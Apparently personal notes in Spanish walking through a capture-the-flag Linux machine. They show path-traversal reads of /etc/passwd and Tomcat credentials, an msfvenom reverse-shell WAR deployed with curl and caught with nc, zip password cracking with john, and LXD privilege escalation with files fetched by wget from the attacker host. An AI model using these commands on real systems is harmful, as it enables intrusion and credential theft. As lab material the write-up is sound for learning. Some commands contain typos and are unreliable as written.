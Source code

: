 ## Summary

Tags: #Linux #HTTP #SSH #Tomcat #LFI #DirectoryPathTraversal #Msfvenom #Base64 #John #GruposExpeciales #Lxd

- IP -> 10.10.11.194
- Ports -> TCP (80, 22, 8080), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4
    - 80 -> Apache httpd 2.4.41
    - 8080 -> Apache Tomcat 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

22 ->    OpenSSH 8.2p1 Ubuntu 4 -> Focal
80 ->    Apache httpd 2.4.41 -> Focal 

## Recon

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,80,8080 ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

Ahora nos disponemos a ver en la web por ambos puertos, el 80 y el 8080.

* En el puerto 80 de la pagina encontramos dentro la web una pestaña llamada "NEWS" en donde no podemos ingresar ya que esta haciendo virtual hosting. Por lo que debemos de agregar el dominio a nuestro **/etc/hosts** 

Dentro de NEWS observamos lo siguiente en la url:
```python
❯ megahosting.htb/news.php?file=statement

# Ahi podemos observar que hay un '?file=' que nos puede llevar a un LFI (Local File Inclusion), por lo que probamos lo siguiente en la URL

❯ megahosting.htb/news.php?file=/../../../../../etc/passwd       # Hacemos un Directory Path Traversal para ver el /etc/host de la maquina victima, si se ve raro el output hacemos 'Ctrl + u'

# Podemos observar dos usuarios, el primero es 'root' y el segundo 'ash', por lo que nos disponemos a ver si podemos ver mas cosas como:
❯ megahosting.htb/news.php?file=/../../../../../home/ash/user.txt
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/authorized_keys
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa.pub
# Pero no podemos mirar nada de los comandos anteriores 
```

* Miramos que en el puerto 8080 encontramos un Tomcat y nos muestra donde nos da un enlace a **manager webapp**, nos pide un usuario y una passwd. Colocamos las clásicas **admin:admin**, nos dará un error pero nos redireccionara a una nueva pagina.
	
	* Encontramos una ruta: **/etc/tomcat9/tomcat-user.xml**

Miramos esa ruta por el puerto 80, ya que podemos hacer usar el **Directory Path Traversal** y encontramos lo siguiente:
Como no nos muestra nada, nos disponemos a buscar en Google 'Tomcat User Common Path ' , ya que no siempre esa es la ruta de un Tomcat9, ahora encontramos esta nueva ruta: 
	**/usr/share/tomcat9/etc/tomcat-users.xml** 

Miramos esa ruta en la web por el puerto 80 con el **Directory Path Traversal** y encontramos:
	**User: tomcat | Passwd: $3cureP4s5w0rd123!**

Recordemos la ruta típica de Tomcat en la web para poder entrar es: **/manager/html** en donde nos pedirá una autenticación, y como ya tenemos el usuario y la passwd la colocamos en el panel y así lograremos entrar. Pero no sucede. 

Ahora vamos a Google y buscaremos '**Tomcat Exploit Variant**' 
* [Tomcat-Variant](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
Ahí encontramos una imagen que nos dice como ir al panel de manager desde la web ( **/host-manager/html** ). Pero al momento de entrar observamos que no esta la opción para poder subir un archivo y así podernos crear una aplicación maliciosa. 

Ahora nos disponemos a mirar la ruta de las aplicaciones en Tomcat. 
```bash 
❯ curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list'         # Ruta para mirar las aplicaciones existentes en Tomcat, pero antes debemos de autenticarnos

	# u = Usuario:Passwd
```

Cuando miremos que no podemos instalar una aplicación desde la web en la parte de manager ( **/host-manager/html** ), lo podemos hacer desde consola de la siguiente manera con Msfvenom:
```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

Una vez obtenido el archivo. war que seria la 'aplicación' la podemos colocar en la siguiente ruta con curl
* [Tomcat-deploy-war](https://stackoverflow.com/questions/4432684/tomcat-manager-remote-deploy-script)

Esto se hará por el método POST.
```bash 
❯ curl -s -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/reverse" --upload-file reverse.war
```

Nos ponemos en escucha
```bash
❯ nc -nlvp 443 
```

Para poder ejecutar la aplicación que subimos, debemos de ir a la web y colocar lo siguiente:
```python
http://10.10.10.194:8080/reverse                      # Colocaremos lo siguiente en la url de la web, reverse = Nombre de la app que subimos (archivo .war)
```

## User

Una vez dentro, hacemos tratamiento de la consola. 

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

```bash
❯ whoami                                     # Miramos el nombre del usuario que en este caso es tomcat
```

Debemos de buscar la manera de convertirnos en el usuario 'ash' aplicando un **User Pivoting**

```python
/var/www/html                  # Ruta donde se encuentra el servidor web montado, ahi encontramos un dir llamado 'files'
```

Dentro de 'files' encontraremos un archivo **16162020_backup.zip** el cual nos lo traeremos a nuestra maquina victima haciéndole un base64 para poderlo transferir.
```python 
❯ base64 16162020_backup.zip   # Codificamos el archivo .zip en base64 para poderlo copiar a nuestra maquina de atacante y ahi poder hacerle el unzip 
```

En nuestra maquina de atacante creamos un archivo y en el depositamos el resultado del comando anterior. 
Después decodificaremos el archivo ya que su contenido esta en base64. 
```bash
❯ cat data | base64 -d | sponge data.zip      # Decodificaremos el archivo que hemos creado, y con sponge colocaremos la decodificacion en el mismo archivo 
```

```python 
❯ unzip data.zip                              # Para unzipear el archivo 

# Pero nos pide una passwd
```

Para poder obtener la hash del archivo la crackearemos con John The Ripper y después de obtener el hash, se lo pasaremos para poder obtener la passwd.
```bash
❯ zip2john data.zip > hash                      # Para que nos devuelva el Hash y asi despues poderlo crackear, el resultado lo metemos dentro de un archivo llamado 'hash'

❯ jhon -w:/usr/share/wordlists/rockyou.txt hash # Usando jhon y el diccionario rockyou, romperemos el hash obtenido anteriormente

# Nos regresa como passwd = admin@it
```

Abrimos el archivo data.zip con la passwd obtenida. Nos extrae una carpeta **var** en la cual  obtenemos varios archivos, pero ninguno es relevante. 

Probamos la passwd obtenida en la maquina victima para ver si nos podemos cambiar al usuario ash.
```bash 
❯ su ash                                        # Cambiamos al usuario ash y le colocamos la passwd que hemos encontrado 
```

Ahora nos podemos meter a su directorio personal y así poder ver la primera flag 'user.txt'



## Root

Miramos si podemos ejecutar un comando por los privilegios en el Sudoers.
```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash
❯ id                                               # Para ver si estamos en un grupo especial

# Pertenecemos al grupo lxd, por lo que hacemos lo siguiente para poder hacer la escalada

	# lxd = Si estas en este grupo, puedes escalar por medio de monturas, utilizando el exploit 
		
		❯ searchsploit lxd
		❯ searchsploit -m 46978.sh 
		# Descargas la imagen de Alpine, la url esta dentro del script 
		❯ bash build-alpine    # Aclarar que lo debemos de hacer en la maquina de atacante porque nos pide ser root y despues transferimos a la victima lo sig: (privesc.sh, alpine-v3.17-x86_64.tar.gz)
```

Nos lo transferimos con un servidor por el puerto 80.
```bash 
❯ python3 -m htt.server 80              # Nos creamos un servidor para tranferir 
```


En la maquina victima nos dirigimos al directorio **/tmp/ o /dev/shm/** ya que cuenta con privilegio de lectura y escritura. Una vez dentro de ese dir, hacemos lo siguiente:
```bash 
❯ wget http://10.10.14.5/lxd_privesc.sh
❯ wget http://10.10.14.5/alpine-v3.17-x86_64.tar.gz
```

En la maquina victima ejecutamos lo siguiente:
```bash
❯ ./privesc.sh -f alpine-v3.17-x86_64.tar.gz   # Por defecto nos creara un contenedor y nos dara una consola como root dentro del contenedor que llevara la raiz de la maquina victima, la raiz del maquina victima la encontraremo en el dir /mnt/root/
❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima
❯ ls -l /bin/bash              # Listar los permisos de la bash
❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID
```

Antes de ejecutar lo anterior ver que lxd exista en la maquina victima, si no esta es porque tal vez el Path sea muy pequeño, por lo que exportaremos el Path de nuestra maquina de atacante. 
